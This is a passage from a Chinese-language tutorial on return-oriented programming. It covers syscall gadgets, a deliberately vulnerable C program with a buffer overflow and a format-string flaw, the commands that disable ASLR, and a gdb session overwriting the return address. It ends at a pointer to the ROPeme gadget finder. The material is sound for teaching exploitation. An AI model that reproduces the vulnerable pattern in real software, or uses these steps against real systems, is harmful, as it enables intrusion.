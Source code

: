 ** （5）系统调用 **
 - 系统调用指令实现内核中断
 - 示例：
 	 + int 0x80;ret
 	 + call gs:[0x10];ret

** （6）尽量避免使用的gadgets **
 - 不要使用以 leave 结尾的gadgets，会污染栈帧
 - 不要使用包含 pop ebp 的gadgets，同样也会污染栈帧

# Ⅱ、ROP exploit 的编写
## ① 初始化
有漏洞的程序如下：
 ```
 #include <stdio.h>
 int main(int argc, char *argv[]){
 	char buf[256];
 	memcpy(buf, argv[1],strlen(argv[1]));
 	printf(buf);
 }
 ```
禁用ASLR，然后测试程序是否正常运行。

```
# echo 0 > /proc/sys/kernel/randomize_va_space
# gcc -mpreferred-stack-boundary=2 so3.c -o rop2
so3.c: In function ‘main’:
so3.c:6:2: warning: incompatible implicit declaration of built-in function ‘memcpy’ *enabled by default+
so3.c:6:22: warning: incompatible implicit declaration of built-in function ‘strlen’ *enabled by default+
# ./rop2 `python -c 'print "A"*260'`
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAF􀳦􀳦􀳦
# gdb -q rop2
Reading symbols from /root/Desktop/tuts/so/rop2...(no debugging symbols found)...done.
(gdb) r `python -c 'print "A"*260+"B"*4'`
Starting program: /root/Desktop/tuts/so/rop2 `python -c 'print "A"*260+"B"*4'`



Program received signal SIGSEGV, Segmentation fault.
0x42424242 in ?? ()
(gdb)
```

如上面所示，成功覆盖了返回地址，返回地址离shellcode起始地址 264 bytes。

## ② 自动化工具 ROPeme
使用自动化搜索工具 ROPeme 查找 libc 库中的 gadgets，ROPeme [下载链接](https://github.com/packz/ropeme)
 